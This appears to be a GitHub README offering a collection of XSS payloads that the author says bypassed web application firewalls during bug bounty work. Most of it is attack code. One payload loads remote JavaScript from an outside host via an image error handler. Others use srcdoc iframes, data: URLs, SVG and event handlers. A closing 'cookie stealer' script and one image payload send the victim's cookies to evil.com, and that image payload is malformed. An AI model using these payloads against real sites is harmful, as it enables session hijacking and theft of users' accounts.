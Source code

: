 # xss_waf_bypass
Some collection of xss payloads that worked for me to bypass wafs while doing bb

### Payloads

1. **Inject External JavaScript without `<script>` Tag:**
   
```html
<img src=x onerror="var script = document.createElement('script'); script.src = 'https://eternal.h4ck.me/xss.js'; document.head.appendChild(script);">
```

2. **Bypassing `onerror` Filter with `srcdoc`:**

```html
<iframe srcdoc="<script>alert('XSS')</script>">
```

3. **Using `data:` URL to Execute JavaScript:**

```html
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=">Click me</a>
```

4. **Data Exfiltration through Image Source (Cross-Domain):**

```html
<img src="https://evil.com/?data=" + encodeURIComponent(document.cookie)">
```

5. **CSS-Based XSS:**

```css
body { background-image: url('javascript:alert("XSS")'); }
```

6. **SVG XSS (Cross-Site Scripting using SVG):**

```html
<svg/onload=alert(document.domain)>
```

7. **Event Handlers to Execute Payload:**

```html
<button onclick="alert('XSS')">Click Me</button>
```

### Cookie Stealer Example:

```js
// XSS cookie stealer POC
var cookie = encodeURIComponent(document.cookie);
var url = 'https://evil.com/index.html/?victim_cookie=' + cookie;
window.location.href = url;
```
